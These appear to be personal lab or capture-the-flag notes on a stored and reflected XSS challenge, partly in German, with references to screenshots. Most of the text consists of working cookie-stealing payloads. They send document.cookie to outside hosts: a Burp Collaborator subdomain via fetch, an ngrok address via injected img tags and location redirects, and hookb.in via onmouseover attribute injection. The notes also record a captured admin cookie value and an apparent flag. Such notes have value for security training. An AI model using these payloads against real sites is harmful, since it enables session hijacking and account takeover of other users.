 ## XSS - Stored 1

<script>alert("Alert");</script>
![[Screen Shot 2021-11-18 at 00.03.51.png]]
![[Screen Shot 2021-11-18 at 00.06.36.png]]
https://null-byte.wonderhowto.com/how-to/write-xss-cookie-stealer-javascript-steal-passwords-0180833/

https://vimeo.com/19144435

https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
<script> fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
![[Screen Shot 2021-11-19 at 20.39.25.png]]

![[Screen Shot 2021-11-19 at 20.59.43.png]]
![[Screen Shot 2021-11-19 at 21.04.20.png]]
![[Screen Shot 2021-11-19 at 21.00.02.png]]

<script>document.write('<img src="https://951d-2001-7c7-1180-823-48ef-3919-4642-97a8.ngrok.io?cookie='+document.cookie+"/>');</script>

=> nichts auf dem server bekommen

<script>document.write('<img src="https://951d-2001-7c7-1180-823-48ef-3919-4642-97a8.ngrok.io?cookie=' + document.cookie + '" />')</script>
=> etwas bekommen:

![[Screen Shot 2021-11-19 at 21.16.39.png]]
![[Screen Shot 2021-11-19 at 21.16.48.png]]

https://developers.google.com/analytics/devguides/collection/analyticsjs/cookies-user-id

![[Screen Shot 2021-11-19 at 21.31.40.png]]

-> somehow the message is read but nothing special comes on the server
![[Screen Shot 2021-11-19 at 21.32.04.png]]
![[Screen Shot 2021-11-19 at 21.32.16.png]]

=> after some time, finally!!
![[Screen Shot 2021-11-19 at 21.40.52.png]]
![[Screen Shot 2021-11-19 at 21.41.12.png]]

/?cookie=ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6 - No such file or directory

<script>document.location='http://951d-2001-7c7-1180-823-48ef-3919-4642-97a8.ngrok.io?c='+document.cookie</script>
![[Screen Shot 2021-11-19 at 21.47.02.png]]
-> got the cookie again, I have to be patient and wait for the admin to check the message

![[Screen Shot 2021-11-19 at 21.49.43.png]]



exp' onmouseover='document.location=%22https://hookb.in/JK08pq1OzMFg0l990xVr?%22.concat(document.cookie)

exp' onmouseover='document.location=%22https://hookb.in/Dr0NNaXkO1hPajxxazeq?%22.concat(document.cookie)

r3fL3ct3D_XsS_fTw

test'onmouseover='document.location=%22https://hookb.in/3One9l7Djnu7yakkymWL?%22.concat(document.cookie)


